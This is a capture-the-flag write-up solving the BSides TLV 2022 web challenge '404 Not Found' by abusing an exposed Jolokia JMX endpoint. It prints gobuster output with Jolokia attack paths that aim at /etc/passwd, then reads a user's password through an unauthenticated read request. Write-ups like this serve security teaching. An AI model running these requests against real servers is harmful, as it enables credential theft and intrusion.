


# BSides TLV CTF 2022 - [https://ctf22.bsidestlv.com/](https://ctf22.bsidestlv.com/)
Web, 100 Points

## Description



Attached URL [https://not-found.ctf.bsidestlv.com/](https://not-found.ctf.bsidestlv.com/) 

Attached file [dirlist.txt](./dirlist.txt)

## 404 Not Found Solution

By observing to the URL [https://not-found.ctf.bsidestlv.com/](https://not-found.ctf.bsidestlv.com/) we get the following content:



Let's run ```gobuster``` with the attached dictionary list file:
```console
┌─[evyatar@parrot]─[/ctf/2022_bsidestlv/web/404_not_found]
└──╼ $ gobuster dir -u https://not-found.ctf.bsidestlv.com/ -w /ctf/2022_bsidestlv/web/404_not_found/dirlist.txt -t 100 -k --wildcard 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://not-found.ctf.bsidestlv.com/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /ctf/2022_bsidestlv/web/404_not_found/dirlist.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/06/28 23:26:59 Starting gobuster in directory enumeration mode
===============================================================
/faces/javax.faces.resource/web.xml?ln=..\\WEB-INF (Status: 400) [Size: 49]
/jolokia/             (Status: 200) [Size: 415]                            
/jolokia/exec/com.sun.management:type=DiagnosticCommand/vmLog/output=!/tmp!/pwned (Status: 200) [Size: 2643]
/jolokia/exec/com.sun.management:type=DiagnosticCommand/vmLog/disable (Status: 200) [Size: 2631]            
/jolokia/exec/com.sun.management:type=DiagnosticCommand/vmSystemProperties (Status: 200) [Size: 2620]       
/jolokia/exec/com.sun.management:type=DiagnosticCommand/help/* (Status: 200) [Size: 2625]                   
/jolokia/exec/com.sun.management:type=DiagnosticCommand/jfrStart/filename=!/tmp!/foo (Status: 200) [Size: 2646]
/jolokia/list?maxObjects=100 (Status: 200) [Size: 3085]                                                        
/jolokia/read/java.lang:type=Memory/HeapMemoryUsage/used (Status: 200) [Size: 157]                             
/jolokia/exec/com.sun.management:type=DiagnosticCommand/compilerDirectivesAdd/!/etc!/passwd (Status: 200) [Size: 2653]
/jolokia/search/*:j2eeType=J2EEServer,* (Status: 200) [Size: 110]                                                     
/jolokia/exec/ch.qos.logback.classic (Status: 200) [Size: 1767]                                                       
/jolokia/read/java.lang:type=*/HeapMemoryUsage (Status: 200) [Size: 248]                                              
/jolokia/exec/com.sun.management:type=DiagnosticCommand/jvmtiAgentLoad/!/etc!/passwd (Status: 200) [Size: 2646]       
/jolokia/version      (Status: 200) [Size: 415]                                                                       
/jolokia/exec/java.lang:type=Memory/gc (Status: 200) [Size: 125]                                                      
/jolokia/list         (Status: 200) [Size: 472578]                                                                    
```

As we can see it's a [jolokia](https://jolokia.org/) which is a JMX-HTTP bridge giving an alternative to ```JSR-160``` connectors. It is an agent based approach with support for many platforms. In addition to basic JMX operations it enhances JMX remoting with unique features like bulk requests and fine grained security policies ([Reference](https://jolokia.org/)).

By observing the following link [https://not-found.ctf.bsidestlv.com/jolokia/list?maxObjects=1000](https://not-found.ctf.bsidestlv.com/jolokia/list?maxObjects=1000) we get the following JSON response:
```json
{
  "timestamp": 1656878518,
  "status": 200,
  "request": {
    "type": "list"
  },
  "value": {
    "JMImplementation": "[Object limit exceeded]",
    "Users": {
      "database=UserDatabase,type=UserDatabase": {
        "desc": "In-memory user and group database",
        "op": {
          "createUser": {
            "ret": "java.lang.String",
            "desc": "Create new user and return MBean name",
            "args": [
              {
                "desc": "User name of the new user",
                "name": "username",
                "type": "java.lang.String"
              },
              {
                "desc": "Password of the new user",
                "name": "password",
                "type": "java.lang.String"
              },
              {
                "desc": "Full name of the new user",
                "name": "fullName",
                "type": "java.lang.String"
              }
            ]
          },
          "createGroup": {
            "ret": "java.lang.String",
            "desc": "Create new group and return MBean name",
            "args": [
              {
                "desc": "Group name of the new group",
                "name": "groupname",
                "type": "java.lang.String"
              },
              {
                "desc": "Description of the new group",
                "name": "description",
                "type": "java.lang.String"
              }
            ]
          },
          "save": {
            "ret": "void",
            "desc": "Save current users and groups to persistent storage",
            "args": [
              
            ]
          },
          "createRole": {
            "ret": "java.lang.String",
            "desc": "Create new role and return MBean name",
            "args": [
              {
                "desc": "Role name of the new role",
                "name": "rolename",
                "type": "java.lang.String"
              },
              {
                "desc": "Description of the new role",
                "name": "description",
                "type": "java.lang.String"
              }
            ]
          },
          "removeRole": {
            "ret": "void",
            "desc": "Remove existing role",
            "args": [
              {
                "desc": "Role name of the role to remove",
                "name": "rolename",
                "type": "java.lang.String"
              }
            ]
          },
          "findGroup": {
            "ret": "java.lang.String",
            "desc": "Return MBean Name of the specified group (if any)",
            "args": [
              {
                "desc": "Group name of the requested group",
                "name": "groupname",
                "type": "java.lang.String"
              }
            ]
          },
          "findRole": {
            "ret": "java.lang.String",
            "desc": "Return MBean Name of the specified role (if any)",
            "args": [
              {
                "desc": "Role name of the requested role",
                "name": "rolename",
                "type": "java.lang.String"
              }
            ]
          },
          "findUser": {
            "ret": "java.lang.String",
            "desc": "Return MBean Name of the specified user (if any)",
            "args": [
              {
                "desc": "User name of the requested user",
                "name": "username",
                "type": "java.lang.String"
              }
            ]
          },
          "removeGroup": {
            "ret": "void",
            "desc": "Remove existing group (and all user memberships)",
            "args": [
              {
                "desc": "Group name of the group to remove",
                "name": "groupname",
                "type": "java.lang.String"
              }
            ]
          },
          "removeUser": {
            "ret": "void",
            "desc": "Remove existing user (and all group memberships)",
            "args": [
              {
                "desc": "User name of the user to remove",
                "name": "username",
                "type": "java.lang.String"
              }
            ]
          }
        },
        "attr": {
          "users": {
            "desc": "MBean Names of all defined users",
            "type": "[Ljava.lang.String;",
            "rw": "[Object limit exceeded]"
          },
          "roles": "[Object limit exceeded]",
          "writeable": "[Object limit exceeded]",
          "pathname": "[Object limit exceeded]",
          "modelerType": "[Object limit exceeded]",
          "readonly": "[Object limit exceeded]",
          "groups": "[Object limit exceeded]"
        }
      },
      "database=UserDatabase,rolename=k1aNoYouCantBruteIt},type=Role": {
        "desc": "Security role from a user database",
        "attr": {
          "rolename": {
            "desc": "Role name of this role",
            "type": "java.lang.String",
            "rw": false
          },
          "description": {
            "desc": "Description of this role",
            "type": "java.lang.String",
            "rw": true
          },
          "modelerType": {
            "desc": "Type of the modeled resource. Can be set only once",
            "type": "java.lang.String",
            "rw": false
          }
        }
      },
      "database=UserDatabase,type=User,username=\"BSidesTLV2022\"": {
        "desc": "User from a user database",
        "op": {
          "removeGroups": {
            "ret": "void",
            "desc": "Remove all group memberships for this user",
            "args": [
              
            ]
          },
          "addGroup": {
            "ret": "void",
            "desc": "Add a new group membership for this user",
            "args": [
              {
                "desc": "Group name of the new group",
                "name": "groupname",
                "type": "java.lang.String"
              }
            ]
          },
          "removeRole": {
            "ret": "void",
            "desc": "Remove an old authorized role for this user",
            "args": [
              {
                "desc": "Role to be removed",
                "name": "role",
                "type": "java.lang.String"
              }
            ]
          },
          "removeRoles": {
            "ret": "void",
            "desc": "Remove all authorized roles for this user",
            "args": [
              
            ]
          },
          "removeGroup": {
            "ret": "void",
            "desc": "Remove an old group membership for this user",
            "args": [
              {
                "desc": "Group name of the old group",
                "name": "groupname",
                "type": "java.lang.String"
              }
            ]
          },
          "addRole": {
            "ret": "void",
            "desc": "Add a new authorized role for this user",
            "args": [
              {
                "desc": "Role to be added",
                "name": "role",
                "type": "java.lang.String"
              }
            ]
          }
        },
        "attr": {
          "username": {
            "desc": "User name of this user",
            "type": "java.lang.String",
            "rw": true
          },
          "roles": {
            "desc": "MBean Names of roles for this user",
            "type": "[Ljava.lang.String;",
            "rw": false
          },
          "fullName": {
            "desc": "Full name of this user",
            "type": "java.lang.String",
            "rw": true
          },
          "modelerType": {
            "desc": "Type of the modeled resource. Can be set only once",
            "type": "java.lang.String",
            "rw": false
          },
          "password": {
            "desc": "Password of this user",
            "type": "java.lang.String",
            "rw": true
          },
          "groups": {
            "desc": "MBean Names of groups this user is a member of",
            "type": "[Ljava.lang.String;",
            "rw": false
          }
        }
    }
    },
    "jmx4perl": "[Object limit exceeded]",
    "com.sun.management": "[Object limit exceeded]",
    "Catalina": "[Object limit exceeded]",
    "java.nio": "[Object limit exceeded]",
    "java.lang": "[Object limit exceeded]",
    "java.util.logging": "[Object limit exceeded]",
    "jolokia": "[Object limit exceeded]"
  }
}
```

We can see two interesting objects, The first one:
```json
"database=UserDatabase,rolename=k1aNoYouCantBruteIt},type=Role": {
        "desc": "Security role from a user database",
        "attr": {
          "rolename": {
            "desc": "Role name of this role",
            "type": "java.lang.String",
            "rw": false
          },
          "description": {
            "desc": "Description of this role",
            "type": "java.lang.String",
            "rw": true
          },
          "modelerType": {
            "desc": "Type of the modeled resource. Can be set only once",
            "type": "java.lang.String",
            "rw": false
          }
        }
      }
```

The ```rolename``` looks like the last part of the flag, Let's note it ```k1aNoYouCantBruteIt}```.

The second object is:
```json
"database=UserDatabase,type=User,username=\"BSidesTLV2022\"": {
        "desc": "User from a user database",
        ...
        },
        "attr": {
          "username": {
            "desc": "User name of this user",
            "type": "java.lang.String",
            "rw": true
          },
          "roles": {
            "desc": "MBean Names of roles for this user",
            "type": "[Ljava.lang.String;",
            "rw": false
          },
          "fullName": {
            "desc": "Full name of this user",
            "type": "java.lang.String",
            "rw": true
          },
          "modelerType": {
            "desc": "Type of the modeled resource. Can be set only once",
            "type": "java.lang.String",
            "rw": false
          },
          "password": {
            "desc": "Password of this user",
            "type": "java.lang.String",
            "rw": true
          },
          "groups": {
            "desc": "MBean Names of groups this user is a member of",
            "type": "[Ljava.lang.String;",
            "rw": false
          }
        }
    }
```

We can see the ```password``` attribute of this object, By reading the documentation on the following link [https://jolokia.org/reference/pdf/jolokia-reference.pdf](https://jolokia.org/reference/pdf/jolokia-reference.pdf) to read the ```password``` attribute we can use the following link: [https://not-found.ctf.bsidestlv.com/jolokia/read/Users:database=UserDatabase,type=User,username="BSidesTLV2022"/password](https://not-found.ctf.bsidestlv.com/jolokia/read/Users:database=UserDatabase,type=User,username="BSidesTLV2022"/password) and we get the response:
```json
{"timestamp":1656878898,"status":200,"request":{"mbean":"Users:database=UserDatabase,type=User,username=\"BSidesTLV2022\"","attribute":"password","type":"read"},"value":"{J0l0k1aJ0l0k1aJ0l0"}
```

We can see the first part of the flag on ```value```:```{J0l0k1aJ0l0k1aJ0l0```

Write it together and we get the flag ```BSidesTLV2022{J0l0k1aJ0l0k1aJ0l0k1aNoYouCantBruteIt}```.